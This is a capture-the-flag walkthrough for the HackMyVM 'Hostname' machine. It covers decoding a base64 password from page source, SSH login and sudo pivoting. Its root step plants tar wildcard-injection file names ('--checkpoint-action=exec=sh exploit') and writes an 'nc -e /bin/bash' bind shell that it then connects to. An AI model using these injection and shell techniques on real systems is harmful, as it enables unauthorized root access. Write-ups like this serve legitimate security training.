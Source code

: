 ```yaml
---
title: "Hostname - Avijneyam"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - Hostname
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Hostname - Avijneyam
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|Hostname|
|Author:|[avijneyam](https://hackmyvm.eu/profile/?user=avijneyam)|
|Release date:|2022-05-04|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Hostname)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|Web-tools|

# 01. Entry
In the source code, you will find this:
{: .text-justify}
<code>
<script crossorigin="<span style="background-color: yellow;">S3VuZ19GdV9QNG5kYQ==</span>" src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
</code>

Decode it:
{: .text-justify}
```bash
echo -n 'S3VuZ19GdV9QNG5kYQ==' | base64 -d  #Secret Word
```
Use the **HackBar v2** plugin for Firefox and You got a password for SSH.
{: .text-justify}
![HackBar v2](/assets/images/hacking/2024/02/01.png)
# 02. SSH
Log in to the console as user **po**.
{: .text-justify}
```bash
export IP=172.16.1.240
ssh po@$IP 
```
## a. User oogway
```bash
cat /etc/sudoers.d/po
```
```
po HackMyVM = (oogway) NOPASSWD: /bin/bash
```
```bash
sudo -u oogway -h HackMyVM bash
```
```bash
cat /etc/crontab
```
![crontab](/assets/images/hacking/2024/02/02.png)
# b. user root
```bash
cd /opt/secret/
touch -- --checkpoint=1
touch -- "--checkpoint-action=exec=sh exploit"
echo "nc -e /bin/bash -lvp 1234" > exploit
```
Wait a minute.
{: .text-justify}
```bash
nc localhost 1234
```
